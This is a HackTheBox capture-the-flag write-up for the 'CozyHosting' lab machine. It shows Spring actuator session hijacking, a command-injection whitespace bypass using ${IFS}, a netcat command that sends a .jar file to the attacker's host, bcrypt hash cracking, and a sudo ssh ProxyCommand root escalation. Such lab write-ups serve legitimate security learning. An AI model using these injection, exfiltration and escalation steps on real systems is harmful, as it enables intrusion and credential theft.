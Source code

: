 ```yaml
---
title:  "HackTheBox WriteUp - CozyHosting"
date:   2023-12-30
categories: Cybersecurity Hack-The-Box
---
```

![card](/assets/images/cozyhosting/CozyHosting.png)
## Enumeration
An initial port scan showed two open ports: 22 and 80. The website hosts some flavor text and a login page.
```
$ nmap -sV -sC -Pn -p1-65535 -o nmap.scan cozyhosting.htb

Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 30 16:09:28 2023 -- 1 IP address (1 host up) scanned in 19.73 seconds
```
A directory scan also showed an admin page, which redirected to the login page. No easily guessable username/password combinations worked.
```
$ ./gobuster dir -u http://cozyhosting.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 401) [Size: 97]
/error                (Status: 500) [Size: 73]
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/logout               (Status: 204) [Size: 0]
```

A second directory scan using a different wordlist showed the `actuator` directory, which is a spring boot feature that exposes metrics about the application. 
```
$ ./gobuster dir -u http://cozyhosting.htb -w /usr/share/SecLists/Discovery/Web-Content/quickhits.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/quickhits.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/%ff/                 (Status: 400) [Size: 435]
/actuator             (Status: 200) [Size: 634]
/error                (Status: 500) [Size: 73]
/login                (Status: 200) [Size: 4431]
/actuator             (Status: 200) [Size: 634]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/sessions    (Status: 200) [Size: 148]
/actuator/health      (Status: 200) [Size: 15]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/mappings    (Status: 200) [Size: 9938]

```
The subdirectory `/actuator/env` showed multiple environment variables, sadly with redacted values. The `/actuator/sessions` displayed two sessions with their corresponding session ID.

```
{"0F28127A7CCC83670C29FA7E872CADD1":"kanderson","5600CEDA9C4A0AF01A14B7F633B50416":"UNAUTHORIZED"}
```

With this information a session hijacking attack could be performed, by taking kandersons session ID and setting our own `JSESSIONID` cookie to that value. This gave me access to the `/admin` page.
![admin-page](/assets/images/cozyhosting/image.png)

## Initial Foothold
The admin page contained a tool to add new server to the dashboard. By intercepting the request with Burp, I saw, that a POST request to `/executessh` was made. This made me think, that the server possibly executes an SSH command on the system. I tried multiple different parameters to validate this assumption. Adding a pipeline symbol to the end of the username field, generated a bash error message.

![Alt text](/assets/images/cozyhosting/image-3.png)

The command seemed to be executed in the following way: `ssh <username>@<hostname> ...`. By adding the pipeline, only `ssh <username>` was executed, which isn't a valid command anymore, resulting in the error message. This behaviour could be exploited to get remote command execution on the server. The username variable gets validated to not contain any whitespace characters. This can however be bypassed by using the internal field seperator variable `${IFS}`, which Linux replaces with a regular whitespace. Additionally it seemed like, only error messages got returned in the HTTP response, which is why STDOUT had to be redirected to STDERR to be able to see if the command got executed successfully. This was done using `1>&2`.

The request to execute a command looked like this in the end. The host variable was completely ignored and just had to contain something to count as a "valid" hostname.

![Alt text](/assets/images/cozyhosting/image-4.png)

Now a reverse shell could be executed on the host. To not have to worry about special characters the command was encoded as base64 and decoded on the host, before executing it.

![Alt text](/assets/images/cozyhosting/image-1.png)

In the `/app` directory there was a .jar file. This was downloaded using netcat.

```
$ ls
cloudhosting-0.0.1.jar
```
```
$ nc 10.10.14.8 4445 < cloudhosting-0.0.1.jar
```

The .jar file could now be decompiled using the JD-GUI tool. Inside the `application.properties` some database credentials were found.

![Alt text](/assets/images/cozyhosting/image-2.png)

Back on the reverse shell, the credentials could be used to log into the postgres database. The database contained two tables, one called hosts and one called users. The users table contained password hashes for the kanderson user seen previously and an admin user.

```
$ psql -h localhost -U postgres -d cozyhosting                  
Password for user postgres: Vg&nvzAQ7XxR

\dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

```

The admin password was able to be cracked using an offline bruteforce attack.

```
hashcat -O -m 3200 -a 0 hashes /usr/share/wordlists/rockyou.txt --show
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

The credentials could then be used to log into the system as the user josh. This led to the user flag.

```
josh@cozyhosting:~$ cat user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

Executing `sudo -l` as the josh user showed, that he is allowed to run the ssh CLI using sudo. The ssh CLI does not instantly drop sudo permissions which makes it possible to execute a command using the `ProxyCommand` option. This made it possible to open a shell as root.

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
```

```
# cat root.txt	
XXXXXXXXXXXXXXXXXXXXXXXXX
```


## Reflection
I struggeled alot with getting to the user flag. Working out how to bypass the validation of whitespaces took me a while, but I think this was a good learning experience for the future. After being able to execute commands, getting the reverse shell was easier, thanks to my previous experiences working with the base64 encoding. Additionally I learned how to download files using netcat, which I hadn't done before.